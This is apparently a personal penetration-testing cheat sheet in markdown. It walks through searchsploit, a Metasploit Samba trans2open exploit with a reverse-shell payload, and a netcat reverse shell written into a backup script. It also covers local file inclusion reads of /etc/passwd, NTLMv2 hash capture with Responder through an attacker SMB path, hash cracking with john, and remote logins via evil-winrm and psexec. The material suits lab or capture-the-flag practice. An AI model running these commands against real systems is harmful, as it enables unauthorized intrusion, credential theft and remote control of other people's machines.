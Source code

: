 # General exploitation

## Links
exploit-db.com
rapid7.com/db/modules/exploit
https://github.com/swisskyrepo/PayloadsAllTheThings


## seraching with searchsploit

```
seearchsploit <app>
```
example
```
searchsploit samba

searchsploit mod ssl 2
```

# Exploit with Metasploit
Using samba as an example


search for a codename of exploit or however it shows up in searchsploit
```
search trans2open
```
```
use exploit/linux/samba/trans2open
or 
use 1
```
```
set RHOST 192.168.1.4
```
```
msf5 > show targets
```
```
msf5 > exploit
```
IF IT KEEPS DYING TRY A DIFFERENT TYPE OF PAYLOAD
stageless vs staged
```
msf5 > options
```
```
msf5 > set payload linux/x86/shell_reverse_tcp
```
```
msf5 > exploit
```

# Manual

download exploit if you can find it on github or google

download, compile and run


shit to try:

```
echo '#!/bin/bash
nc -e /bin/bash 10.0.2.4 7337
"
' > /backup.sh
```
# Redis
geeting around Redis to print out keys
```
redis-cli - <ip or hostname> -p <port> -a <password if you know it>
```
printing all keys
```
select *
keys *
```
# LFI
always try to see if you can do any sort of lfi 
index.php?page="../../../../../../../../etc/hosts

or use curl
```
curl 'http://{target_IP}/?file=/etc/passwd'
```

# LFI on a windows machine
```
index.php?page="../../../../../../../../windows/system32/drivers/etc/hosts"
```

use repeater to see if you can connect back to a smb server youre running and grab the hash credentials
```
sudo responder -I tun0
```
then on the browser
```
http://<IP-or-HOST>/index.php?page=//<attaker-ip>/somefile
```
copy the `NTLMv2-SSP Hash` 
```
echo "Administrator ........0" > hash.txt
```
use john to crack the hash
```
sudo john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

## http auth
dont forget to check for the `htpasswd` file

# WINRM
connect using winrm
```
evil-winrm -i 10.129.56.226 -u Administrator -p password
```

# connecting to windows with credentials using psexec
```
python3 psexec.py administrator@{TARGET_IP}
```
